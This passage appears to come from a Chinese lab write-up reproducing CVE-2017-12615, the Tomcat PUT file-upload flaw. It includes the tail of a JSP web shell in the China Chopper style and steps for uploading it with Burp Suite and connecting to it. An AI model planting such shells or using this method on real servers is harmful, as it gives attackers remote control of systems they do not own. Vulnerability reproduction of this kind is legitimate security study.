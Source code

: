                 OO(z1, sb);  
           } else if (Z.equals("P")) {  
               PP(z1, sb);  
           } else if (Z.equals("Q")) {  
            QQ(cs, z1, z2, sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\", "/")+"images/");  
         }  
        } catch (Exception e) {  
     sb.append("ERROR" + ":// " + e.toString());  
      }  
    sb.append("|" + "<-");  
    out.print(sb.toString());  
    }  
    %>

我们还是利用burpsuite发送我们构造的payload：

![](resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId37.png)

我们可以看到响应码为201，说明成功创建，我们用菜刀连接看一下：

![](resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId38.png)

### 验证脚本

> <https://github.com/ianxtianxt/CVE-2017-12615>
